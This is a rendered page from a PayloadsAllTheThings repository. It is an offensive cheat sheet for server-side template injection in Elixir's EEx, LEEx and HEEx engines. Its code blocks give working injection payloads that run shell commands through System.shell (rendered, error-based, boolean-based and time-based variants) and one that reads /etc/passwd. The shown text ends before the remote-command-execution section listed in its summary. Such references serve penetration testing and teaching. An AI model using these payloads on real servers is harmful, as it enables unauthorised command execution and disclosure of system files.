

repository: MnifR/PayloadsAllTheThings · page: Server Side Template Injection/Elixir/index.html · generator: mkdocs

# Server Side Template Injection - Elixir

> Server-Side Template Injection (SSTI)  is a vulnerability that arises when an attacker can inject malicious code into a server-side template, causing the server to execute arbitrary commands. In Elixir, SSTI can occur when using templating engines like EEx (Embedded Elixir), especially when user input is incorporated into templates without proper sanitization or validation.

## Summary

- [Templating Libraries](#templating-libraries)
- [Universal Payloads](#universal-payloads)
- [EEx](#eex)
    - [EEx - Basic injections](#eex---basic-injections)
    - [EEx - Retrieve /etc/passwd](#eex---retrieve-etcpasswd)
    - [EEx - Remote Command execution](#eex---remote-command-execution)
- [References](#references)

## Templating Libraries

| Template Name | Payload Format |
|---------------|----------------|
| EEx           | `<%= %>`       |
| LEEx          | `<%= %>`       |
| HEEx          | `<%= %>`       |

## Universal Payloads

Generic code injection payloads work for many Elixir-based template engines, such as EEx, LEEx and HEEx.

By default, only EEx can render templates from string, but it is possible to use LEEx and HEEx as replacement engines for EEx.

To use these payloads, wrap them in the appropriate tag.

```erlang
elem(System.shell("id"), 0) # Rendered RCE
[1, 2][elem(System.shell("id"), 0)] # Error-Based RCE
1/((elem(System.shell("id"), 1) == 0)&&1||0) # Boolean-Based RCE
elem(System.shell("id && sleep 5"), 0) # Time-Based RCE
```

## EEx

[Official website](https://hexdocs.pm/eex/1.19.5/EEx.html)
> EEx stands for Embedded Elixir.

### EEx - Basic injections

```erlang
<%= 7 * 7 %>
```

### EEx - Retrieve /etc/passwd

```erlang
<%= File.read!("/etc/passwd") %>
```
